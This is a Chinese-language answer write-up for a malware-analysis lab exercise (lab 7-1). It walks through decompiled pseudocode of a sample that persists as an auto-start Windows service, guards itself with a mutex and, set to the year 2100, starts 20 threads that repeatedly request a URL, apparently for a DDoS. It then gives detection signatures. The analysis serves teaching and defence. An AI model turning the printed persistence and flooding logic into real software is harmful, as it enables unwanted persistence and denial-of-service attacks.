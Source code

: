 # lab 7-1

## QUESTION 1

> How does this program ensure that it continues running (achieves persistence) when the computer is restarted?

我们先分析这个程序的结构，查看 `_main` 函数的伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  SERVICE_TABLE_ENTRYA ServiceStartTable; // [sp+0h] [bp-10h]@1
  int v5; // [sp+8h] [bp-8h]@1
  int v6; // [sp+Ch] [bp-4h]@1

  ServiceStartTable.lpServiceName = aMalservice;
  ServiceStartTable.lpServiceProc = (LPSERVICE_MAIN_FUNCTIONA)sub_401040;
  v5 = 0;
  v6 = 0;
  StartServiceCtrlDispatcherA(&ServiceStartTable);
  return sub_401040(0, 0, ServiceStartTable.lpServiceName, ServiceStartTable.lpServiceProc, v5, v6);
}
```

其中创建了一个 `SERVICE_TABLE_ENTRYA` 类型的变量，将 `sub_401040` 这个函数赋值给 `lpServerceProc` 这个子变量，并通过调用 `StartServiceCtrlDispatcherA` 这个函数注册这个服务。

并且通过 `sub_401040(0, 0, ServiceStartTable.lpServiceName, ServiceStartTable.lpServiceProc, v5, v6)` 的方式调用了这个函数，所以我们进一步分析这个关键的函数 `sub_401040()`：

```c
int sub_401040()
{
  SC_HANDLE v0; // esi@3
  HANDLE v1; // esi@3
  signed int v2; // esi@4
  SYSTEMTIME SystemTime; // [sp+0h] [bp-400h]@3
  struct _FILETIME FileTime; // [sp+10h] [bp-3F0h]@3
  CHAR Filename; // [sp+18h] [bp-3E8h]@3

  if ( OpenMutexA(0x1F0001u, 0, Name) )
    ExitProcess(0);
  CreateMutexA(0, 0, Name);
  v0 = OpenSCManagerA(0, 0, 3u);
  GetCurrentProcess();
  GetModuleFileNameA(0, &Filename, 0x3E8u);
  CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, &Filename, 0, 0, 0, 0, 0);
  *(_DWORD *)&SystemTime.wYear = 0;
  *(_DWORD *)&SystemTime.wDayOfWeek = 0;
  *(_DWORD *)&SystemTime.wHour = 0;
  *(_DWORD *)&SystemTime.wSecond = 0;
  SystemTime.wYear = 2100;
  SystemTimeToFileTime(&SystemTime, &FileTime);
  v1 = CreateWaitableTimerA(0, 0, 0);
  SetWaitableTimer(v1, (const LARGE_INTEGER *)&FileTime, 0, 0, 0, 0);
  if ( !WaitForSingleObject(v1, 0xFFFFFFFF) )
  {
    v2 = 20;
    do
    {
      CreateThread(0, 0, StartAddress, 0, 0, 0);
      --v2;
    }
    while ( v2 );
  }
  Sleep(0xFFFFFFFF);
  return 0;
}
```

我们发现其中的一个关键的函数 `CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, &Filename, 0, 0, 0, 0, 0);`，这个函数用于创建了一个服务，我们查看这个函数的原型：

```c
SC_HANDLE __stdcall CreateServiceA(SC_HANDLE hSCManager, LPCSTR lpServiceName, LPCSTR lpDisplayName, DWORD dwDesiredAccess, DWORD dwServiceType, DWORD dwStartType, DWORD dwErrorControl, LPCSTR lpBinaryPathName, LPCSTR lpLoadOrderGroup, LPDWORD lpdwTagId, LPCSTR lpDependencies, LPCSTR lpServiceStartName, LPCSTR lpPassword);
```

这个函数的第六个参数，调用时传入的参数是 `2u`，可以在 `MSDN` 中查找到具体的各个参数的含义：

| Value                                 | Meaning                                                      |
| :------------------------------------ | :----------------------------------------------------------- |
| **SERVICE_AUTO_START** `0x00000002`   | A service started automatically by the service control manager during system startup. For more information, see [Automatically Starting Services](https://msdn.microsoft.com/8aa60e96-a35e-4670-832c-c045d0903618). |
| **SERVICE_BOOT_START** `0x00000000`   | A device driver started by the system loader. This value is valid only for driver services. |
| **SERVICE_DEMAND_START** `0x00000003` | A service started by the service control manager when a process calls the [StartService](https://msdn.microsoft.com/f185a878-e1c3-4fe5-8ec9-c5296d27f985) function. For more information, see [Starting Services on Demand](https://msdn.microsoft.com/72f51b38-d62c-4400-a38d-b9a0e90e9db4). |
| **SERVICE_DISABLED** `0x00000004`     | A service that cannot be started. Attempts to start the service result in the error code **ERROR_SERVICE_DISABLED**. |
| **SERVICE_SYSTEM_START** `0x00000001` | A device driver started by the **IoInitSystem** function. This value is valid only for driver services. |

所以这个程序通过创建一个服务，并且将其第六个参数 `DWORD dwServiceType` 设置为 `SERVICE_AUTO_START 0x02` 来设置程序的自启动。

## QUESTION 2

> Why does this program use a mutex?

在上面的伪代码分析中，我们发现程序在执行 `sub_401040()` 这个函数之前首先使用 `CreateMutexA(0, 0, Name);` 这个函数创建了一个互斥量。如果通过 `OpenMutexA(0x1F0001u, 0, Name)` 这个方法检测到互斥量的存在，则程序直接退出。

其目的应该是确保后面对进程、系统时间、文件或者服务的访问，只有一个进程在使用。

## QUESTION 3

> What is a good host-based signature to use for detecting this program?

根据第一问对伪代码的分析我们可以得到：

1. 被这个程序感染的机器会创建一个服务，其名称为 `DisplayName` = `Malservice`

2. 被这个感染的机器，如果程序正在运行，则会创建一个互斥量 `Name` = `HGL345`

## QUESTION 4

> What is a good network-based signature for detecting this malware?

我们进一步分析伪代码，发现这个程序通过 `do while` 循环创建线程执行以下的函数 20 次：

```c
CreateThread(0, 0, (LPTHREAD_START_ROUTINE)StartAddress, 0, 0, 0);
```

于是我们查看 `StartAddress` 中的函数伪代码：

```c
void __stdcall __noreturn StartAddress(LPVOID lpThreadParameter)
{
  void *i; // esi@1

  for ( i = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(i, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
```

其中：

1. 字符串 `szAgent` = `Internet Explorer 8.0`
2. 字符串 `szUrl` = `http://www.malwareanalysisbook.com`

这个函数的功能是打开一个浏览器 `Internet Explorer 8.0`，并且不断地在这个浏览器中打开网址 `http://www.malwareanalysisbook.com`。

## QUESTION 5

> What is the purpose of this program?

我们进一步分析函数 `sub_401040` 的逻辑，发现在 `do while` 循环之前 `SystemTime` 的值被设置为了 `2100 年 1 月 1 日 00:00`，结合我们在第四问中分析的逻辑。

我们知道这个程序的目的是在 `2100 年 1 月 1 日 00:00` 这个时间打开 `20` 个线程不断打开网页 `http://www.malwareanalysisbook.com`。猜测其目的是在这个时间点联合多台感染主机对目标发起 `DDoS` 攻击。

## QUESTION 6

> When will this program finish executing?

根据之前的分析，程序创建了 20 个不会停止的线程之后会 `Sleep(0xFFFFFFFF);`，这是一个 `unsigned int` 类型的最大值，以毫秒为单位计算之后这个程序 `sleep` 的时间，得到 `49 天 ` 的结果。

所以这个程序的主控线程会在执行了 49 天之后停止，但是很显然这个恶意代码的作者并不想让他停止，之所以为 49 天只是因为并不能休眠更长的时间了。

